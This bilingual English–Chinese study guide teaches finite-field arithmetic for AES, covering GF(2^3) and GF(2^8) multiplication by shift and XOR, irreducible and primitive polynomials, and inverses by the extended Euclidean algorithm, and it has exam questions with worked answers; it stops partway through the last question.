Q3. (True/false) Let \(R[x]\) be the polynomials over the field of real numbers. Decide and justify: (a) \(R[x]\) is a commutative ring with identity, the constant polynomial \(1\); (b) \(f\in R[x]\) has a multiplicative inverse iff \(f\) is a nonzero constant; (c) \(R[x]\) is a field.Q3.（判断）设 \(R[x]\) 为实数域上的多项式。判断下列命题并给出理由：（a）\(R[x]\) 是以常数多项式 \(1\) 为单位元的交换环；（b）\(f\in R[x]\) 有乘法逆元，当且仅当 \(f\) 为非零常数；（c）\(R[x]\) 是域。
Answer
(a) True: polynomials over a field are closed under \(+\) and \(\times\), and the ring axioms are inherited from the coefficients. (b) True: if \(fg=1\) then \(\deg f+\deg g=0\), so both are constants; a nonzero constant \(c\) has the inverse \(1/c\). (c) False: \(x\) has no inverse, since \(\deg(xg)\ge1\ne0\) for every \(g\ne0\).（a）正确：域上的多项式对 \(+\) 与 \(\times\) 封闭，且环公理由系数继承而来。（b）正确：若 \(fg=1\)，则 \(\deg f+\deg g=0\)，故二者均为常数；非零常数 \(c\) 的逆元为 \(1/c\)。（c）错误：\(x\) 没有逆元，因为对任意 \(g\ne0\) 都有 \(\deg(xg)\ge1\ne0\)。
Finite Fields GF(2ⁿ) and AES Arithmetic ★★★有限域 GF(2ⁿ) 与 AES 运算
Goal. Add and multiply bytes in the AES field \(\mathrm{GF}(2^8)\) by hand, with shift and XOR, and find the inverse of an element.目标。 用移位和 XOR 手工计算 AES 域 \(\mathrm{GF}(2^8)\) 中字节的加法和乘法，并求元素的逆元。
Step 1: why GF(2ⁿ)第 1 步：为什么用 GF(2ⁿ)
In words: a cipher that needs division must work in a field, and a field with exactly 2^n elements uses every n-bit word.用文字表述：需要做除法的密码必须在域中运算；恰好有 2^n 个元素的域会用到每一个 n 位字。
For \(n>1\) the integers mod \(2^n\) are not a field, because the element \(2\) has no inverse. The prime field \(\mathbb Z_{251}\) is a field, but it wastes the byte values \(251\)–\(255\). So AES uses \(\mathrm{GF}(2^8)\): all \(256\) byte values are elements, and every nonzero byte has an inverse. \(\mathrm{GF}(2^3)\) also has a uniform multiplication table, which leaves less statistical structure to a cryptanalyst than \(\mathbb Z_8\) has.对于 \(n>1\)，模 \(2^n\) 的整数不构成域，因为元素 \(2\) 没有逆元。素域 \(\mathbb Z_{251}\) 是域，但它浪费了字节值 \(251\)–\(255\)。因此 AES 使用 \(\mathrm{GF}(2^8)\)：所有 \(256\) 个字节值都是元素，并且每个非零字节都有逆元。\(\mathrm{GF}(2^3)\) 的乘法表也很均匀，与 \(\mathbb Z_8\) 相比，给密码分析者留下的统计结构更少。
Step 2: the construction第 2 步：构造方法
In words: take all polynomials of degree below n with coefficients 0 or 1, and reduce every product by a fixed irreducible polynomial of degree n.用文字表述：取所有次数低于 n、系数为 0 或 1 的多项式，并用一个固定的 n 次不可约多项式对每个乘积取余。
Take all polynomials of degree at most \(n-1\) over \(\mathbb Z_p\). There are \(p^n\) of them. For \(p=2\) and \(n=3\): \(0,1,x,x+1,x^2,x^2+1,x^2+x,x^2+x+1\). Three rules turn this set into the field \(\mathrm{GF}(p^n)\).取 \(\mathbb Z_p\) 上所有次数至多为 \(n-1\) 的多项式，共有 \(p^n\) 个。对于 \(p=2\) 和 \(n=3\)：\(0,1,x,x+1,x^2,x^2+1,x^2+x,x^2+x+1\)。三条规则可将这个集合变为域 \(\mathrm{GF}(p^n)\)。
- Use the ordinary rules of polynomial algebra.使用普通的多项式代数运算法则。
- Reduce the coefficients mod \(p\).把系数按模 \(p\) 化简。
- If a product has degree above \(n-1\), divide by a fixed irreducible polynomial \(m(x)\) of degree \(n\), and keep the remainder.若乘积的次数高于 \(n-1\)，则用次数为 \(n\) 的固定不可约多项式 \(m(x)\) 去除，并保留余式。
The polynomial \(m(x)\) plays the part of the prime \(p\) in \(\mathbb Z_p\). It must be irreducible. If \(m=ab\) with two factors of lower degree, then \(a\cdot b\equiv0\), so both are zero divisors without inverses. Example: modulo \(x^3+1=(x+1)(x^2+x+1)\) the element \(x+1\) has no inverse. All finite fields of one order are isomorphic（同构的）: another choice of \(m(x)\) only relabels the elements. For \(\mathrm{GF}(2^3)\) the choices are \(x^3+x+1\) and \(x^3+x^2+1\), the only irreducible cubics.多项式 \(m(x)\) 在 \(\mathbb Z_p\) 中起着素数 \(p\) 的作用。它必须不可约。若 \(m=ab\) 可以分解为两个次数更低的因式，那么 \(a\cdot b\equiv0\)，因此这两个因式都是没有逆元的零因子。例如，模 \(x^3+1=(x+1)(x^2+x+1)\) 时，元素 \(x+1\) 没有逆元。同一阶的所有有限域都是同构的：\(m(x)\) 的另一种选择只是给元素重新命名。对于 \(\mathrm{GF}(2^3)\)，可选的多项式是 \(x^3+x+1\) 和 \(x^3+x^2+1\)，它们是仅有的两个不可约三次式。
Step 3: bit strings and addition第 3 步：位串与加法
In words: an element is a string of n bits, and adding two elements means XOR-ing the bit strings.用文字表述：一个元素就是 n 位的位串，两个元素相加就是对两个位串做 XOR。
Adding polynomials adds corresponding coefficients mod \(2\). So addition and subtraction are bitwise XOR. There are no carries, and every element is its own additive inverse. Example: \(01010111\oplus10000011=11010100\), that is \(\{57\}\oplus\{83\}=\{\mathrm{D4}\}=x^7+x^6+x^4+x^2\).多项式相加就是把对应系数按模 \(2\) 相加。因此加法和减法都是按位 XOR。没有进位，每个元素都是它自己的加法逆元。例如：\(01010111\oplus10000011=11010100\)，即 \(\{57\}\oplus\{83\}=\{\mathrm{D4}\}=x^7+x^6+x^4+x^2\)。
The multiplication table of \(\mathrm{GF}(2^3)\) modulo \(x^3+x+1\) is given below. Each entry is a 3-bit pattern read as a decimal number. The rows and columns for \(0\) are left out.下面给出 \(\mathrm{GF}(2^3)\) 模 \(x^3+x+1\) 的乘法表。每个表项是一个 3 位的位模式，按十进制数读出。\(0\) 对应的行和列被省略。
| \(\times\) | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
|---|---|---|---|---|---|---|---|
| 1 | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
| 2 | 2 | 4 | 6 | 3 | 1 | 7 | 5 |
| 3 | 3 | 6 | 5 | 7 | 4 | 1 | 2 |
| 4 | 4 | 3 | 7 | 6 | 2 | 5 | 1 |
| 5 | 5 | 1 | 4 | 2 | 7 | 3 | 6 |
| 6 | 6 | 7 | 1 | 5 | 3 | 2 | 4 |
| 7 | 7 | 5 | 2 | 1 | 6 | 4 | 3 |
Example: 100 times 010 is \(x^2\cdot x=x^3\equiv x+1\), that is 011. Every row contains \(1,\dots,7\) once, so each element has an inverse, found in the column that holds the \(1\): \(2^{-1}=5\), \(3^{-1}=6\), \(4^{-1}=7\).例如：100 乘以 010 等于 \(x^2\cdot x=x^3\equiv x+1\)，即 011。每一行都恰好出现一次 \(1,\dots,7\)，因此每个元素都有逆元，可在含有 \(1\) 的那一列中找到：\(2^{-1}=5\)、\(3^{-1}=6\)、\(4^{-1}=7\)。
Step 4: multiplication in GF(2⁸)第 4 步：GF(2⁸) 中的乘法
In words: multiply by x = shift left one bit, and if a 1 fell out of the top, XOR with 00011011 (hex 1B).用文字表述：乘以 x 就是左移一位；若最高位移出了一个 1，则与 00011011（十六进制 1B）做 XOR。
AES uses \(m(x)=x^8+x^4+x^3+x+1\), which is the bit string \(1\,0001\,1011=\{11B\}\). Since \(x^8\equiv x^4+x^3+x+1=\{\mathrm{1B}\}\), multiplication by \(x\) needs no long division.AES 使用 \(m(x)=x^8+x^4+x^3+x+1\)，即位串 \(1\,0001\,1011=\{11B\}\)。由于 \(x^8\equiv x^4+x^3+x+1=\{\mathrm{1B}\}\)，乘以 \(x\) 不需要做长除法。
How to do it by hand, for a general product \(a\cdot b\):对于一般的乘积 \(a\cdot b\)，手工做法如下：
- Write \(b\) as a sum of powers of \(x\), one for every bit of \(b\) that is 1.把 \(b\) 写成 \(x\) 的幂之和，对 \(b\) 中每个为 1 的位各取一项。
- Compute \(a\cdot x^k\) for each needed \(k\): apply the rule above \(k\) times, and decide the XOR after every single shift.对每个需要的 \(k\) 计算 \(a\cdot x^k\)：按上面的规则做 \(k\) 次，每移一位后都要决定是否做 XOR。
- XOR the partial products.把各部分积做 XOR。
AES MixColumns (Chapter 6) multiplies by \(\{02\}=x\) and by \(\{03\}=x+1\). So \(\{03\}\cdot a\) is the xtime of \(a\) XOR \(a\).AES 的 MixColumns（第 6 章）要乘以 \(\{02\}=x\) 和 \(\{03\}=x+1\)。因此 \(\{03\}\cdot a\) 等于 \(a\) 的 xtime 与 \(a\) 做 XOR。
Step 5: multiplicative inverse第 5 步：乘法逆元
In words: the inverse comes from the same extended Euclidean algorithm as for integers, now with polynomials and with m(x) as the modulus.用文字表述：逆元来自与整数相同的扩展欧几里得算法，只是这里处理的是多项式，并且以 m(x) 为模数。
Because \(m(x)\) is irreducible, \(\gcd(m(x),b(x))=1\) for every nonzero \(b(x)\) of lower degree. The algorithm returns the inverse.因为 \(m(x)\) 不可约，所以对每个次数更低的非零 \(b(x)\) 都有 \(\gcd(m(x),b(x))=1\)。该算法返回逆元。
Practice练习
Q1. (Calculation) Compute \(\{57\}\cdot\{13\}\) in the AES field.Q1.（计算）在 AES 域中计算 \(\{57\}\cdot\{13\}\)。
Answer
\(\{13\}=00010011=x^4+x+1\). From the worked example, \(\{57\}\cdot x^4=\{07\}\), \(\{57\}\cdot x=\{\mathrm{AE}\}\) and \(\{57\}\cdot1=\{57\}\). Therefore \(\{57\}\cdot\{13\}=\{07\}\oplus\{\mathrm{AE}\}\oplus\{57\}=\{\mathrm{FE}\}\) (bits: \(00000111\oplus10101110=10101001\), then \(\oplus\,01010111=11111110\)).\(\{13\}=00010011=x^4+x+1\)。由例题可得 \(\{57\}\cdot x^4=\{07\}\)、\(\{57\}\cdot x=\{\mathrm{AE}\}\) 与 \(\{57\}\cdot1=\{57\}\)。因此 \(\{57\}\cdot\{13\}=\{07\}\oplus\{\mathrm{AE}\}\oplus\{57\}=\{\mathrm{FE}\}\)（比特形式为 \(00000111\oplus10101110=10101001\)，即 \(\oplus\,01010111=11111110\)）。
思路：把乘数拆成 \(x\) 的幂，逐次 xtime，最后异或。
Q2. (Inverse) Find the inverse of \(x^2+1\) in \(\mathrm{GF}(2^3)\) with \(m(x)=x^3+x-1\).Q2.（求逆）用 \(m(x)=x^3+x-1\) 在 \(\mathrm{GF}(2^3)\) 中求 \(x^2+1\) 的逆元。
Answer
Over \(\mathrm{GF}(2)\), \(-1=1\), so \(m(x)=x^3+x+1\). One division step: \(x^3+x+1=x\,(x^2+1)+1\), so \(q_1=x\) and \(r_1=1\). Hence \(1=m+x\,(x^2+1)\), and \(w_1=-q_1w_0=x\). So \((x^2+1)^{-1}=x\). Check: \(x(x^2+1)=x^3+x\equiv(x+1)+x=1\) (in the table, \(5\cdot2=1\)).在 \(\mathrm{GF}(2)\) 上，\(-1=1\)，故 \(m(x)=x^3+x+1\)。做一次除法：\(x^3+x+1=x\,(x^2+1)+1\)，故 \(q_1=x\) 且 \(r_1=1\)。因此 \(1=m+x\,(x^2+1)\)，并且 \(w_1=-q_1w_0=x\)。于是 \((x^2+1)^{-1}=x\)。验证：\(x(x^2+1)=x^3+x\equiv(x+1)+x=1\)（在表中为 \(5\cdot2=1\)）。
Q3. (Explain) Show that arithmetic on the polynomials over \(\mathrm{GF}(2)\) modulo \(x^3+1\) (8 elements) is not a field.Q3.（解释）说明 \(\mathrm{GF}(2)\) 上的多项式模 \(x^3+1\)（共 8 个元素）所构成的运算不是域。
Answer
\(x^3+1=(x+1)(x^2+x+1)\) is reducible. The product \((x+1)(x^2+x+1)=x^3+1\equiv0\), so \(x+1\) and \(x^2+x+1\) are zero divisors, and a zero divisor has no inverse (equivalently \(\gcd(x+1,x^3+1)=x+1\ne1\)). The 8 residues form a commutative ring but not a field. An irreducible cubic such as \(x^3+x+1\) is needed.\(x^3+1=(x+1)(x^2+x+1)\) 是可约的。乘积 \((x+1)(x^2+x+1)=x^3+1\equiv0\)，故 \(x+1\) 与 \(x^2+x+1\) 是零因子，而零因子没有逆元（等价地，\(\gcd(x+1,x^3+1)=x+1\ne1\)）。这 8 个剩余类构成一个交换环，但不是域。应取一个不可约三次多项式，例如 \(x^3+x+1\)。
Generators and Primitive Polynomials ★生成元与本原多项式
A generator（生成元）\(g\) of a field with \(q\) elements is an element whose powers \(g^0,\dots,g^{q-2}\) are all the nonzero elements. A polynomial of degree \(n\) over \(\mathrm{GF}(p)\) is primitive（本原多项式）if its roots are generators of \(\mathrm{GF}(p^n)\). Equivalently, \(x\) has order \(p^n-1\) modulo the polynomial. Every primitive polynomial is irreducible, but not the other way round. \(x^3+x+1\) is primitive over \(\mathrm{GF}(2)\). The AES polynomial is irreducible but not primitive: \(x\) has order \(51\), not \(255\).具有 \(q\) 个元素的域的生成元 \(g\)，是这样一个元素：它的各次幂 \(g^0,\dots,g^{q-2}\) 恰好是全部非零元。\(\mathrm{GF}(p)\) 上次数为 \(n\) 的多项式，若其根是 \(\mathrm{GF}(p^n)\) 的生成元，则称它为本原多项式。等价地，\(x\) 模该多项式的阶为 \(p^n-1\)。每个本原多项式都是不可约的，但反之不成立。\(x^3+x+1\) 在 \(\mathrm{GF}(2)\) 上是本原的。AES 多项式不可约，但不是本原的：\(x\) 的阶为 \(51\)，而不是 \(255\)。
With the root \(g\) of \(x^3+x+1\) we have \(g^3=g+1\), and multiplying by \(g\) again and again gives every nonzero element once.取 \(x^3+x+1\) 的根 \(g\)，有 \(g^3=g+1\)，不断乘以 \(g\)，便可无重复地得到每个非零元。
| Power幂 | Polynomial多项式 | Binary二进制 | Decimal十进制 |
|---|---|---|---|
| \(0\) | \(0\) | 000 |
0 |
| \(g^0=g^7\) | \(1\) | 001 |
1 |
| \(g^1\) | \(g\) | 010 |
2 |
| \(g^2\) | \(g^2\) | 100 |
4 |
| \(g^3\) | \(g+1\) | 011 |
3 |
| \(g^4\) | \(g^2+g\) | 110 |
6 |
| \(g^5\) | \(g^2+g+1\) | 111 |
7 |
| \(g^6\) | \(g^2+1\) | 101 |
5 |
Example: \(g^4\cdot g^6=g^{10\bmod7}=g^3=g+1\).例如：\(g^4\cdot g^6=g^{10\bmod7}=g^3=g+1\)。
Practice练习
Q1. (Calculation) In \(\mathrm{GF}(2^3)\) with \(g^3=g+1\), compute \(g^5\cdot g^4\) and \((g^2+1)^{-1}\) in power form.Q1.（计算）在 \(\mathrm{GF}(2^3)\) 中，取 \(g^3=g+1\)，用幂的形式计算 \(g^5\cdot g^4\) 与 \((g^2+1)^{-1}\)。
Answer
\(g^5\cdot g^4=g^9=g^{9\bmod7}=g^2\). From the table \(g^2+1=g^6\), so \((g^6)^{-1}=g^{7-6}=g\) (binary 010). Check: \((g^2+1)\,g=g^3+g=(g+1)+g=1\).\(g^5\cdot g^4=g^9=g^{9\bmod7}=g^2\)。由表 \(g^2+1=g^6\) 可得 \((g^6)^{-1}=g^{7-6}=g\)（二进制为 010）。验证：\((g^2+1)\,g=g^3+g=(g+1)+g=1\)。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Galois field伽罗瓦域 | Another name for a finite field \(\mathrm{GF}(p^n)\); it has \(p^n\) elements, \(p\) prime有限域 \(\mathrm{GF}(p^n)\) 的另一名称；它有 \(p^n\) 个元素，\(p\) 为素数 |
| Order of a group群的阶 | The number of elements of a finite group有限群的元素个数 |
| Cyclic group循环群 | All elements are powers of one generator; always abelian所有元素都是同一个生成元的幂；总是阿贝尔群 |
| Integral domain整环 | Commutative ring with identity \(1\) and no zero divisors; every finite one is a field没有零因子的带单位元 \(1\) 的交换环；每个有限的此类环都是域 |
| Cancellation law消去律 | \(ab\equiv ac\pmod p\) with \(a\ne0\) gives \(b\equiv c\); holds in \(\mathrm{GF}(p)\), not in \(\mathbb Z_8\)由 \(ab\equiv ac\pmod p\) 且 \(a\ne0\) 得到 \(b\equiv c\)；在 \(\mathrm{GF}(p)\) 中成立，在 \(\mathbb Z_8\) 中不成立 |
| Polynomial ring多项式环 | Polynomials over a field: add, subtract, multiply, divide with remainder; \(x\) has no inverse域上的多项式：可做加、减、乘，以及带余除法；\(x\) 没有逆元 |
| Monic polynomial首一多项式 | The coefficient of the highest power is \(1\)最高次幂的系数为 \(1\) |
| Isomorphic fields同构的域 | Finite fields of equal order differ only in labels; another \(m(x)\) relabels the elements阶相同的有限域只在元素的命名上不同；另选一个 \(m(x)\) 只是给元素重新命名 |
| Residue class剩余类 | The set of polynomials that leave the same remainder modulo \(m(x)\)模 \(m(x)\) 时余式相同的多项式的集合 |
| Inverse by exponent用指数求逆 | The nonzero elements of \(\mathrm{GF}(2^n)\) form a cyclic group of order \(2^n-1\), so \(a^{-1}=a^{2^n-2}\); in AES \(a^{254}\)\(\mathrm{GF}(2^n)\) 的非零元构成阶为 \(2^n-1\) 的循环群，因此 \(a^{-1}=a^{2^n-2}\)；在 AES 中 \(a^{254}\) |
| Log tables对数表 | Software stores logs and antilogs of a generator: \(ab=\exp[(\log a+\log b)\bmod255]\)软件存储生成元的对数和反对数：\(ab=\exp[(\log a+\log b)\bmod255]\) |
Exam-style questions考试题型练习
Q1. (Concepts, 10 marks) (a) Define a group, a ring and a field, naming the axioms that distinguish each from the previous structure. (5 marks) (b) Is \(\mathbb Z_8\) a field? Is \(\mathbb Z_7\)? Justify, and list the inverses in \(\mathbb Z_7\). (3 marks) (c) Why does AES not use \(\mathbb Z_{256}\) for byte arithmetic, and what does it use instead? (2 marks)Q1.（概念，10 分）（a）定义群、环和域，并写出使每一结构区别于前一结构的公理。（5 分）（b）\(\mathbb Z_8\) 是域吗？\(\mathbb Z_7\) 是域吗？请说明理由，并列出 \(\mathbb Z_7\) 中的逆元。（3 分）（c）为什么 AES 不用 \(\mathbb Z_{256}\) 做字节运算，它改用什么？（2 分）
Answer
(a) A group \(\{G,\cdot\}\) satisfies closure, associativity, an identity and an inverse for every element (A1–A4); it is abelian if also commutative (A5). A ring is an abelian group under addition with a second operation, multiplication, that is closed, associative and distributes over addition (M1–M3). A field is a commutative ring (M4) with a multiplicative identity (M5), no zero divisors (M6) and an inverse for every nonzero element (M7); so division is possible and the nonzero elements form an abelian group under multiplication.（a）群 \(\{G,\cdot\}\) 满足封闭性、结合律、存在单位元，且每个元素都有逆元（A1–A4）；若还满足交换律（A5），则它是阿贝尔群。环是在加法下构成阿贝尔群、且带有第二种运算乘法的结构，该乘法封闭、满足结合律，并对加法满足分配律（M1–M3）。域是交换环（M4），并具有乘法单位元（M5）、无零因子（M6），且每个非零元素都有乘法逆元（M7）；因此可以做除法，非零元素在乘法下构成阿贝尔群。
(b) \(\mathbb Z_8\) is not a field: \(2,4,6\) share a factor with \(8\) and have no inverse, and \(2\cdot4\equiv0\) gives zero divisors. \(\mathbb Z_7\) is a field because \(7\) is prime, so every nonzero element is coprime to \(7\). The inverses of \(1,\dots,6\) are \(1,4,5,2,3,6\) (for example \(2\cdot4=8\equiv1\) and \(3\cdot5=15\equiv1\)).（b）\(\mathbb Z_8\) 不是域：\(2,4,6\) 与 \(8\) 有公因子，因而没有逆元，并且 \(2\cdot4\equiv0\) 给出零因子。\(\mathbb Z_7\) 是域，因为 \(7\) 是素数，所以每个非零元素都与 \(7\) 互素。\(1,\dots,6\) 的逆元为 \(1,4,5,2,3,6\)（例如 \(2\cdot4=8\equiv1\) 与 \(3\cdot5=15\equiv1\)）。
(c) In \(\mathbb Z_{256}\) the element \(2\) has no inverse, so division is impossible; \(\mathbb Z_{251}\) would be a field but wastes five byte values. AES uses \(\mathrm{GF}(2^8)\): bytes are polynomials of degree below 8 over \(\mathrm{GF}(2)\) multiplied modulo an irreducible degree-8 polynomial. All 256 values are used, addition is XOR, and every nonzero byte has an inverse.（c）在 \(\mathbb Z_{256}\) 中，元素 \(2\) 没有逆元，因此无法做除法；\(\mathbb Z_{251}\) 虽是域，却浪费了五个字节值。AES 使用 \(\mathrm{GF}(2^8)\)：字节是系数取自 \(\mathrm{GF}(2)\)、次数低于 8 的多项式，并对一个不可约的八次多项式取模相乘。全部 256 个值都被使用，加法为异或，且每个非零字节都有逆元。
Q2. (Calculation, 10 marks) In \(\mathrm{GF}(97)\): (a) find \(23^{-1}\) with the extended Euclidean algorithm, showing every step. (6 marks) (b) Compute \(5/23\). (2 marks) (c) Why does the inverse exist? (2 marks)Q2.（计算，10 分）在 \(\mathrm{GF}(97)\) 中：（a）用扩展欧几里得算法求 \(23^{-1}\)，并写出每一步。（6 分）（b）计算 \(5/23\)。（2 分）（c）为什么该逆元存在？（2 分）
Answer
(a) Divisions: \(97=4\cdot23+5\), \(23=4\cdot5+3\), \(5=1\cdot3+2\), \(3=1\cdot2+1\). With \(y_i=y_{i-2}-q_iy_{i-1}\):（a）做除法：\(97=4\cdot23+5\)，\(23=4\cdot5+3\)，\(5=1\cdot3+2\)，\(3=1\cdot2+1\)。回代得 \(y_i=y_{i-2}-q_iy_{i-1}\)：
| \(i\) | \(q_i\) | \(r_i\) | \(y_i\) |
|---|---|---|---|
| \(-1\) | 97 | 0 | |
| 0 | 23 | 1 | |
| 1 | 4 | 5 | \(-4\) |
| 2 | 4 | 3 | 17 |
| 3 | 1 | 2 | \(-21\) |
| 4 | 1 | 1 | 38 |
So \(23^{-1}=38\). Check: \(23\cdot38=874=9\cdot97+1\).因此 \(23^{-1}=38\)。验证：\(23\cdot38=874=9\cdot97+1\)。
(b) \(5/23=5\cdot38=190\equiv190-97=93\). Check: \(23\cdot93=2139=22\cdot97+5\).（b）\(5/23=5\cdot38=190\equiv190-97=93\)。验证：\(23\cdot93=2139=22\cdot97+5\)。
(c) \(97\) is prime, so \(\gcd(23,97)=1\); equivalently, \(\mathrm{GF}(97)\) is a field and every nonzero element has an inverse.（c）\(97\) 是素数，因此 \(\gcd(23,97)=1\)；等价地，\(\mathrm{GF}(97)\) 是域，每个非零元素都有逆元。
Q3. (Polynomials over \(\mathrm{GF}(2)\), 10 marks) Let \(a(x)=x^5+x+1\) and \(b(x)=x^4+x^3+x+1\). (a) Compute \(a+b\). (2 marks) (b) Divide \(a\) by \(b\): give quotient and remainder. (3 marks) (c) Find \(\gcd[a,b]\) with the Euclidean algorithm. (3 marks) (d) Is \(a(x)\) irreducible? Justify. (2 marks)Q3.（\(\mathrm{GF}(2)\) 上的多项式，10 分）设 \(a(x)=x^5+x+1\) 与 \(b(x)=x^4+x^3+x+1\)。（a）计算 \(a+b\)。（2 分）（b）用 \(a\) 除以 \(b\)，给出商与余式。（3 分）（c）用欧几里得算法求 \(\gcd[a,b]\)。（3 分）（d）\(a(x)\) 是否不可约？请说明理由。（2 分）
Answer
(a) \(a+b=x^5+x^4+x^3\) (the terms \(x\) and \(1\) cancel).（a）\(a+b=x^5+x^4+x^3\)（\(x\) 与 \(1\) 两项相消）。
(b) \(a+x\,b=x^4+x^2+1\); adding \(1\cdot b\) leaves \(x^3+x^2+x\) (degree \(<4\)). So \(q=x+1\) and \(r_1=x^3+x^2+x\).（b）\(a+x\,b=x^4+x^2+1\)；加上 \(1\cdot b\) 后余 \(x^3+x^2+x\)（次数为 \(<4\)）。故商为 \(q=x+1\)，余式为 \(r_1=x^3+x^2+x\)。
(c) Divide \(b\) by \(r_1\): \(b+x\,r_1=x^2+x+1\), so \(q_2=x\) and \(r_2=x^2+x+1\). Divide \(r_1\) by \(r_2\): \(x^3+x^2+x=x\,(x^2+x+1)\), so \(r_3=0\). Hence \(\gcd[a,b]=x^2+x+1\).（c）\(b\) 除以 \(r_1\)：得 \(b+x\,r_1=x^2+x+1\)，即 \(q_2=x\) 且 \(r_2=x^2+x+1\)。再将 \(r_1\) 除以 \(r_2\)：得 \(x^3+x^2+x=x\,(x^2+x+1)\)，故 \(r_3=0\)。因此 \(\gcd[a,b]=x^2+x+1\)。
(d) No. The gcd shows that \(x^2+x+1\) divides \(a\); indeed \(a=(x^2+x+1)(x^3+x^2+1)\). A factor of degree 2 below \(\deg a=5\) makes \(a\) reducible.（d）不是。最大公约数表明 \(x^2+x+1\) 整除 \(a\)；事实上 \(a=(x^2+x+1)(x^3+x^2+1)\)。一个次数为 2 且低于 \(\deg a=5\) 的因子会使 \(a\) 可约。
Q4. (Arithmetic in the AES field, 10 marks) Let \(m(x)=x^8+x^4+x^3+x+1\), \(a=\{\mathrm{D4}\}\) and \(b=\{\mathrm{0D}\}\). (a) Write \(a\) and \(b\) as polynomials and compute \(a\oplus b\). (2 marks) (b) Compute \(a\cdot b\) by shifting and XOR, showing each step. (5 marks) (c) Verify the result by polynomial long division. (3 marks)Q4.（AES 域中的运算，10 分）设 \(m(x)=x^8+x^4+x^3+x+1\)、\(a=\{\mathrm{D4}\}\) 与 \(b=\{\mathrm{0D}\}\)。（a）把 \(a\) 与 \(b\) 写成多项式，并计算 \(a\oplus b\)。（2 分）（b）用移位与异或计算 \(a\cdot b\)，并写出每一步。（5 分）（c）用多项式长除法验证结果。（3 分）
Answer
(a) \(a=11010100=x^7+x^6+x^4+x^2\) and \(b=00001101=x^3+x^2+1\). \(a\oplus b=11011001=\{\mathrm{D9}\}\).（a）\(a=11010100=x^7+x^6+x^4+x^2\) 与 \(b=00001101=x^3+x^2+1\)。\(a\oplus b=11011001=\{\mathrm{D9}\}\)。
(b) \(b=x^3+x^2+1\), so we need \(a\,x^3\), \(a\,x^2\) and \(a\). Shift \(a\): \(11010100\to10101000\); the top bit was \(1\), so XOR \(00011011\) and \(a\,x=10110011=\{\mathrm{B3}\}\). Shift again: \(10110011\to01100110\); the top bit was \(1\), so XOR \(00011011\) and \(a\,x^2=01111101=\{\mathrm{7D}\}\). Shift again: \(01111101\to11111010=\{\mathrm{FA}\}\) (top bit \(0\), no XOR), so \(a\,x^3=\{\mathrm{FA}\}\). Then \(a\cdot b=\{\mathrm{FA}\}\oplus\{\mathrm{7D}\}\oplus\{\mathrm{D4}\}=\{\mathrm{87}\}\oplus\{\mathrm{D4}\}=\{53\}=01010011=x^6+x^4+x+1\).（b）\(b=x^3+x^2+1\)，因此需要 \(a\,x^3\)、\(a\,x^2\) 与 \(a\)。左移 \(a\) 得 \(11010100\to10101000\)；移出的最高位为 \(1\)，故异或 \(00011011\)，得 \(a\,x=10110011=\{\mathrm{B3}\}\)。再次左移得 \(10110011\to01100110\)；移出的最高位为 \(1\)，故异或 \(00011011\)，得 \(a\,x^2=01111101=\{\mathrm{7D}\}\)。再次左移得 \(01111101\to11111010=\{\mathrm{FA}\}\)（最高位为 \(0\)，无需异或），故得 \(a\,x^3=\{\mathrm{FA}\}\)。于是 \(a\cdot b=\{\mathrm{FA}\}\oplus\{\mathrm{7D}\}\oplus\{\mathrm{D4}\}=\{\mathrm{87}\}\oplus\{\mathrm{D4}\}=\{53\}=01010011=x^6+x^4+x+1\)。
(c) \((x^7+x^6+x^4+x^2)(x^3+x^2+1)=x^{10}+x^8+x^5+x^2\) (the other terms cancel in pairs). Subtract \(x^2m(x)=x^{10}+x^6+x^5+x^3+x^2\): result \(x^8+x^6+x^3\). Subtract \(m(x)\): result \(x^6+x^4+x+1=\{53\}\). Both methods agree.（c）\((x^7+x^6+x^4+x^2)(x^3+x^2+1)=x^{10}+x^8+x^5+x^2\)（其余各项两两相消）。减去 \(x^2m(x)=x^{10}+x^6+x^5+x^3+x^2\)，结果为 \(x^8+x^6+x^3\)；再减去 \(m(x)\)，结果为 \(x^6+x^4+x+1=\{53\}\)。两种方法结果一致。
易错：只有移出的最高位为 1 才异或 \(\{1B\}\)，而且每次移位后都要重新判断。
Q5. (Design and analysis, 10 marks) A toy cipher works on 4-bit words and needs multiplication and division. (a) Why is \(\mathbb Z_{16}\) unsuitable, and what is used instead? (2 marks) (b) Show that \(m(x)=x^4+x+1\) is irreducible over \(\mathrm{GF}(2)\). (2 marks) (c) List the powers \(x^0,\dots,x^{14}\) modulo \(m(x)\) as decimal values of their bit patterns and decide whether \(m(x)\) is primitive. (3 marks) (d) Use the list to compute \(13\cdot9\) and \(11^{-1}\). (3 marks)Q5.（设计与分析，10 分）一个玩具分组密码处理 4 比特字，并且需要乘法与除法。（a）为什么不能使用 \(\mathbb Z_{16}\)，改用什么？（2 分）（b）证明 \(m(x)=x^4+x+1\) 在 \(\mathrm{GF}(2)\) 上不可约。（2 分）（c）列出 \(x^0,\dots,x^{14}\) 模 \(m(x)\) 的各次幂，写成其比特串的十进制值，并判断 \(m(x)\) 是否为本原多项式。（3 分）（d）利用该列表计算 \(13\cdot9\) 与 \(11^{-1}\)。（3 分）
Answer
(a) In \(\mathbb Z_{16}\) the element \(2\) has no inverse, so \(\mathbb Z_{16}\) is not a field. Use \(\mathrm{GF}(2^4)\): polynomials of degree below 4 over \(\mathrm{GF}(2)\), multiplied modulo an irreducible quartic.（a）在 \(\mathbb Z_{16}\) 中，元素 \(2\) 没有逆元，因此 \(\mathbb Z_{16}\) 不是域。应改用 \(\mathrm{GF}(2^4)\)：系数取自 \(\mathrm{GF}(2)\)、次数低于 4 的多项式，并对一个不可约四次多项式取模相乘。
(b) \(m(0)=m(1)=1\), so there is no linear factor. The only irreducible quadratic is \(x^2+x+1\), and with \(x^2\equiv x+1\) we get \(x^4\equiv x\), so \(m\equiv x+x+1=1\ne0\). No quadratic factor either, so \(m\) is irreducible.（b）\(m(0)=m(1)=1\)，故无一次因子。唯一的不可约二次多项式是 \(x^2+x+1\)；用 \(x^2\equiv x+1\) 去除得余式 \(x^4\equiv x\)，故 \(m\equiv x+x+1=1\ne0\)。也没有二次因子，因此 \(m\) 不可约。
